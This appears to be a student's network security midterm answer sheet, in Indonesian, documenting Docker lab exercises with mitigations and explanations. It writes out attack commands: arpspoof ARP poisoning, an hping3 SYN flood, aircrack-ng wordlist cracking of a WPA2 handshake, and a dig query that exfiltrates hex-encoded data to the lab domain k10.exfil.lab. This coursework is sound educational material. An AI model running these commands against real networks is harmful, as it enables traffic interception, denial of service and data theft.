



# Jawaban UTS Keamanan Jaringan (Network Security)

## Identitas & Penentuan Kasus
* **Nama:** Petrus Sililin Turnip
* **NIM:** 24552011244
* **Kelas:** TIF RP 24E CNS
* **Mata Kuliah:** Keamanan Jaringan (3 SKS)
* **Link Repositori GitHub:** https://github.com/pturnip05-eng/uts-network-security-24552011244
* **Perhitungan Kasus:** `2 + 4 + 5 + 5 + 2 + 0 + 1 + 1 + 2 + 4 + 4 = 30` -> `30 mod 10 = 0` -> **Kasus 10 (`k10`)**

---

## Tugas 1 (Pertemuan 1): Docker, Volume, dan Compose
* **Perintah yang Dijalankan:**
  ```bash
  docker volume create vol-k10
  docker run --name w-k10 -v vol-k10:/data alpine sh -c 'echo 24552011244 > /data/laporan-k10.txt'
  docker rm w-k10
  docker run --rm -v vol-k10:/data alpine cat /data/laporan-k10.txt
  docker compose -p k10 -f b/b1-compose/docker-compose.yml up -d
  docker compose -p k10 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
  docker compose -p k10 -f b/b1-compose/docker-compose.yml down -v
  ```
* **Output & Bukti:** Isi file `/data/laporan-k10.txt` tetap terbaca `24552011244` dari container baru meskipun container `w-k10` telah dihapus, dan `attacker` berhasil mengambil halaman default `Welcome to nginx!` dari `target`.
  

---

## Tugas 2 (Pertemuan 2): Kriptografi
* **Perintah yang Dijalankan:**
  ```bash
  docker run --rm -v "$PWD:/work" uts-openssl sh -c 'echo isi laporan k10 > laporan-k10.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k10.txt -out laporan-k10.enc -pass pass:kunci-k10-2026 && sha256sum laporan-k10.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k10.enc -out hasil-k10.txt -pass pass:kunci-k10-2026 && sha256sum hasil-k10.txt'
  docker run --rm -v "$PWD:/work" uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k10.pem -out cert-k10.pem -days 30 -subj /CN=k10.exfil.lab && openssl x509 -in cert-k10.pem -noout -subject -issuer -dates'
  ```
* **Output & Bukti:** Nilai SHA-256 `laporan-k10.txt` dan `hasil-k10.txt` identik (`9380747e...aff4`), serta `subject=CN = k10.exfil.lab` dan `issuer=CN = k10.exfil.lab`.
  
* **Jawaban Analisis (Perbedaan sertifikat self-signed dan sertifikat CA):**
  Sertifikat *self-signed* ditandatangani sendiri oleh pemilik kunci privatnya sehingga nilai *Subject* dan *Issuer* identik serta tidak dipercaya secara otomatis oleh *browser* atau sistem operasi publik. Sebaliknya, sertifikat yang ditandatangani oleh *Certificate Authority* (CA) telah diverifikasi dan ditandatangani oleh pihak ketiga terpercaya yang *root certificate*-nya sudah tertanam di sistem, sehingga keaslian identitas pemilik domain diakui secara luas.

---

## Tugas 3 (Pertemuan 3): ARP Spoofing
* **Perintah yang Dijalankan:**
  ```bash
  docker network create lab-arp-k10
  docker run -d --name korban-k10 --network lab-arp-k10 --cap-add NET_ADMIN uts-kali-tools sleep infinity
  docker run -d --name gateway-k10 --network lab-arp-k10 --cap-add NET_ADMIN uts-kali-tools sleep infinity
  docker run -d --name penyerang-k10 --network lab-arp-k10 --cap-add NET_ADMIN uts-kali-tools sleep infinity
  docker exec penyerang-k10 arpspoof -i eth0 -t <IP-KORBAN> <IP-GATEWAY>
  docker exec korban-k10 arp -s <IP-GATEWAY> <MAC-GATEWAY-ASLI>
  ```
* **Output & Bukti:** Pada tabel ARP `korban-k10`, MAC address milik `gateway-k10` berubah menjadi MAC address `penyerang-k10` saat `arpspoof` dijalankan, dan kembali ke MAC asli setelah entri *static ARP* diterapkan.
  
  
  
* **Jawaban Analisis (Satu mitigasi selain static ARP):**
  **Dynamic ARP Inspection (DAI)** pada switch jaringan, yaitu fitur keamanan Layer 2 yang memvalidasi setiap paket ARP yang masuk berdasarkan tabel *DHCP Snooping Binding* sehingga paket ARP palsu (*spoofed*) otomatis diblokir sebelum meracuni *ARP cache* klien.

---

## Tugas 4 (Pertemuan 4): Analisis Handshake WPA2
* **Perintah yang Dijalankan:**
  ```bash
  docker run --rm -v "$PWD/samples:/work" uts-kali-tools aircrack-ng -w /work/wordlist-k10.txt /work/handshake-k10.cap
  ```
* **Output & Bukti:** Hasil analisis paket capture menggunakan `aircrack-ng` tercatat pada tangkapan layar berikut:
  
* **Jawaban Analisis (Empat langkah handshake WPA2):**
  1. **Message 1 (AP -> Client):** Access Point mengirimkan nilai acak **ANonce** (*Authenticator Nonce*) kepada klien untuk memulai proses negosiasi kunci.
  2. **Message 2 (Client -> AP):** Klien menghasilkan **SNonce** (*Supplicant Nonce*), menghitung **PTK** (*Pairwise Transient Key*) dari PMK + ANonce + SNonce + kedua MAC address, lalu mengirim SNonce beserta **MIC** (*Message Integrity Code*) ke AP.
  3. **Message 3 (AP -> Client):** AP memverifikasi MIC dari klien, menghitung PTK yang sama, lalu mengirimkan **GTK** (*Group Temporal Key*) terenkripsi beserta MIC kepada klien.
  4. **Message 4 (Client -> AP):** Klien mengirimkan pesan konfirmasi (ACK) bahwa kunci PTK dan GTK telah terpasang dan siap digunakan untuk mengenkripsi lalu lintas data.

---

## Tugas 5 (Pertemuan 5): ICMP dengan Scapy
* **Perintah yang Dijalankan:**
  ```bash
  docker run --rm -it --network lab-net -v "$PWD/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py <IP-TARGET>
  ```
* **Output & Bukti:** Paket ICMP *Echo Request* berhasil dikirim menggunakan Scapy dan menerima balasan *Echo Reply* (`type=0`) dengan nilai `TTL=64`.
  
* **Jawaban Analisis (Smurf Attack):**
  **Smurf attack** adalah serangan *Distributed Denial of Service* (DDoS) pada Layer 3 di mana penyerang mengirimkan paket *ICMP Echo Request* dalam jumlah besar ke alamat *IP broadcast* suatu jaringan dengan memalsukan (*spoofing*) alamat IP sumber menjadi alamat IP korban, sehingga seluruh host di jaringan tersebut membanjiri korban dengan paket *ICMP Echo Reply* secara bersamaan.

---

## Tugas 6 (Pertemuan 6): SYN Flood dan Three-Way Handshake
* **Perintah yang Dijalankan:**
  ```bash
  docker compose -p k10 -f b/b3-syn-flood/docker-compose.yml up -d
  docker compose -p k10 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV
  docker compose -p k10 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target
  docker compose -p k10 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV
  docker compose -p k10 -f b/b3-syn-flood/docker-compose.yml exec target sysctl -w net.ipv4.tcp_syncookies=1
  ```
* **Output & Bukti:** Jumlah koneksi `SYN_RECV` melonjak drastis saat banjir paket SYN berlangsung, dan paket *three-way handshake* (`[S]`, `[S.]`, `[.]`) terekam jelas saat koneksi HTTP dilakukan.
  
* **Jawaban Analisis (Satu mitigasi SYN Flood):**
  Mengaktifkan **TCP SYN Cookies** (`net.ipv4.tcp_syncookies=1`), sehingga server tidak langsung mengalokasikan memori antrean untuk koneksi setengah terbuka saat menerima paket SYN, melainkan menyandikan parameter koneksi ke dalam nomor urut awal (*Initial Sequence Number*) pada paket SYN-ACK dan baru mengalokasikan sumber daya setelah klien membalas dengan paket ACK yang sah.

---

## Tugas 7 (Pertemuan 7): DNS Exfiltration
* **Perintah yang Dijalankan:**
  ```bash
  docker compose -p k10 -f b/b4-dns-exfil/docker-compose.yml up -d
  echo -n 24552011244 | xxd -p
  docker compose -p k10 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131323434.k10.exfil.lab '@dns'
  docker compose -p k10 -f b/b4-dns-exfil/docker-compose.yml logs dns > dns-k10.log
  python kasus/k9-dns-detect/analisis_dns.py dns-k10-utf8.log
  docker run --rm uts-kali-tools sh -c 'echo 3234353532303131323434 | xxd -r -p && echo'
  ```
* **Output & Bukti:** Query `3234353532303131323434.k10.exfil.lab` tercatat di log `dnsmasq`, terdeteksi pada domain induk `exfil.lab` oleh `analisis_dns.py`, dan hasil *decode* mengembalikan NIM `24552011244`.
  
* **Jawaban Analisis (Mengapa sulit diblokir firewall biasa & indikator deteksi):**
  Teknik ini sulit diblokir oleh *firewall* tradisional karena lalu lintas DNS (UDP/TCP port 53) hampir selalu diizinkan keluar agar pengguna dapat mengakses internet, serta paket exfiltration diteruskan secara sah oleh resolver DNS internal menuju server DNS milik penyerang. Satu indikator utama untuk mendeteksinya adalah **kemunculan nama subdomain yang sangat panjang dengan entropi tinggi atau berisi rangkaian karakter heksadesimal/Base64 acak** disertai frekuensi query unik yang tinggi ke satu domain induk tertentu.
